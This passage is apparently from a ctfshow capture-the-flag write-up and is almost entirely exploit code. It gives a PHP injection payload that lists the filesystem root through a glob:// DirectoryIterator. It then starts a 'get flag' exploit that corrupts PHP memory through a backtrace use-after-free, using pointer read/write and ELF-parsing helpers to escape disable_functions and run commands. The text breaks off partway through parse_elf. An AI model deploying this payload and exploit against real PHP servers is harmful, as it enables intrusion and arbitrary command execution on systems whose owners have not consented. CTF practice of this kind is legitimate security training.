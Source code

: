 **payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```

get flag exp

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

```